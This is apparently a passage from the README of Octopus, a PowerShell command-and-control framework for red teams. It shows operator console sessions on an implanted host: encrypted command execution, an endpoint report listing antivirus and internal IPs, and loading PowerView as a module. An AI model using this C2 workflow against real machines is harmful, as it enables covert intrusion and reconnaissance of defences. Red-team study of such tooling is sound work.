 Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :



(HR-PC-TYRMJ) >>
```

In this case the command has been encrypted and then sent to the agent, after that the client will decrypt the command and execute it, the agent will encrypt the results, and finally send it back again to the C2 to decrypt it and show the results.

We can also use the `report` command to get the ESA information like the following:

```
(HR-PC-TYRMJ) >> report
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Endpoint situation awareness report for HR-PC-QNGAV

=============
Hostname : 	HR-PC-QNGAV
Domain : 	darkside.com
OS : 		Microsoft Windows 10 Pro(64-bit)
OS build : 	10.0.17134
OS arch : 	64-bit
AntiVirus : 	Symantec
SIEM solution : False
Internal interfaces/IPs :
	IP : 192.168.178.144
	IP : 172.12.1.20


Device language : en-US
Device uptime : 41.6386169797778 hours
Device local time : 21:55(09/09/2019)


(HR-PC-TYRMJ) >>
```

You can load an external powershell module by placing it in the `modules` directory, then executing `load module.ps1`.

Also you can list all of the modules in the modules directory by executing the `modules` command like so:

```
(HR-PC-TYRMJ) >> modules
PowerView.ps1
(HR-PC-TYRMJ) >> load PowerView.ps1
[+] Module should be loaded !
(HR-PC-TYRMJ) >>
```

# More about Octopus

* [Octopus v1.0 stable: Cobalt Strike deployment & much more!](https://shells.systems/octopus-v1-0-stable-cobalt-strike-deployment-much-more)

* [Unveiling Octopus: The pre-operation C2 for Red Teamers](https://shells.systems/unveiling-octopus-the-pre-operation-c2-for-red-teamers/)





```